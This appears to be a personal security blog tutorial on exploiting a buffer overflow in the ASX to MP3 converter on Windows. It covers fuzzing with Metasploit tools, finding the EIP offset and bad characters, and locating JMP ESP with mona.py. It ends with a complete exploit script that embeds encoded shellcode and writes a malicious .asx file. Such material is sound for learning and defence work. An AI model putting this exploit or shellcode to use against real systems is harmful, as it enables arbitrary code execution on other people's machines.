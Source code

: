 ```yaml
---
layout: post
title:  "Buffer Overflow Basics"
description: Introduction to my blog
date:   2020-08-01 13:03:36 +0530
categories: bufferoverflow
---
```


### Here is one to exploit a buffer overflow vulnerability in the ASX to MP3 application.

## Spiking (Manual)
- As the application uses asx files as input, generated 5 files Initially to identify the length which the application rewrites the EIP and crashed.
- 30000 (Appcrash)  – 20000 (Appcrash) – 10000 (No Appcrash) – 15000 (No Crash) – 18000 (Crashes Again)
- The following trial and error method indicated that the application crashed between 15000 to 18000 characters input.

## Fuzzing
We can use the pattern create and pattern offset Metasploit tools to create a cyclical pattern and determine the exact offset of EIP

```
# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```

Note that EIP is overwritten with 44386344
 
Second, use the Pattern Offset tool to determine the exact offset of EIP.

```
# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 44386344
```


## Verifying EIP Control

Use the initial ‘A’ generation program, add 4 B's and use the same program to write 593 C's to a text file then load this into the converter application.

## Finding Bad Characters

Use the above code to identify bad character which needs to be removed from shellcode
```
import string  
  
f=open("basefile.txt", "r")  
if f.mode == 'r':  
    contents =f.read()  
	  
badchars = ("\x90\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"  
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"  
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"  
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"  
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"  
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"  
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"  
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")  
  
  
junk = "A" * 17403 + "BBBB" + badchars + "C" * (593-256)  
  
with open('payload.asx’,’w’) as file:  
    file.write(contents)  
    file.write(junk)  
 ```   
Badchars found: \x00 \x09 \x0A
 
## Find JMP ESP command with mona.py to insert as return address.
 
Run Mona to determine files available for use as JMP ESP call. This command allows us to reliably jump to the stack pointer held in the CPU. Note that MSA2Mfilter03.dll has both ASLR and REBASE listed as FALSE so it is a reliable location in memory to use for our JMP ESP command.


```
!mona  jmp -r esp -m MSA2Mfilter03.dll
```


![Image](https://raw.githubusercontent.com/farhankn/farhankn.github.io/master/assets/buf1.png)
![Image](https://raw.githubusercontent.com/farhankn/farhankn.github.io/master/assets/buf2.png)
![Image](https://raw.githubusercontent.com/farhankn/farhankn.github.io/master/assets/buf3.png)
![Image](https://raw.githubusercontent.com/farhankn/farhankn.github.io/master/assets/buf4.png)
![Image](https://raw.githubusercontent.com/farhankn/farhankn.github.io/master/assets/buf5.png)


## Final Code with Padding and NOP Buffer
```
buf =  b""
buf += b"\xdb\xce\xd9\x74\x24\xf4\xb8\xd3\xce\x49\x36\x5b\x31"
buf += b"\xc9\xb1\x31\x31\x43\x18\x03\x43\x18\x83\xc3\xd7\x2c"
buf += b"\xbc\xca\x3f\x32\x3f\x33\xbf\x53\xc9\xd6\x8e\x53\xad"
buf += b"\x93\xa0\x63\xa5\xf6\x4c\x0f\xeb\xe2\xc7\x7d\x24\x04"
buf += b"\x60\xcb\x12\x2b\x71\x60\x66\x2a\xf1\x7b\xbb\x8c\xc8"
buf += b"\xb3\xce\xcd\x0d\xa9\x23\x9f\xc6\xa5\x96\x30\x63\xf3"
buf += b"\x2a\xba\x3f\x15\x2b\x5f\xf7\x14\x1a\xce\x8c\x4e\xbc"
buf += b"\xf0\x41\xfb\xf5\xea\x86\xc6\x4c\x80\x7c\xbc\x4e\x40"
buf += b"\x4d\x3d\xfc\xad\x62\xcc\xfc\xea\x44\x2f\x8b\x02\xb7"
buf += b"\xd2\x8c\xd0\xca\x08\x18\xc3\x6c\xda\xba\x2f\x8d\x0f"
buf += b"\x5c\xbb\x81\xe4\x2a\xe3\x85\xfb\xff\x9f\xb1\x70\xfe"
buf += b"\x4f\x30\xc2\x25\x54\x19\x90\x44\xcd\xc7\x77\x78\x0d"
buf += b"\xa8\x28\xdc\x45\x44\x3c\x6d\x04\x02\xc3\xe3\x32\x60"
buf += b"\xc3\xfb\x3c\xd4\xac\xca\xb7\xbb\xab\xd2\x1d\xf8\x44"
buf += b"\x99\x3c\xa8\xcc\x44\xd5\xe9\x90\x76\x03\x2d\xad\xf4"
buf += b"\xa6\xcd\x4a\xe4\xc2\xc8\x17\xa2\x3f\xa0\x08\x47\x40"
buf += b"\x17\x28\x42\x23\xf6\xba\x0e\x8a\x9d\x3a\xb4\xd2"



fuzz = "A" * 17424 + "\x73\xdf\x03\x10" + "FFFF" + "\x90" * 16 + buf +"C" * 300
with open('payload.asx','w') as file:
    file.write(fuzz)

```
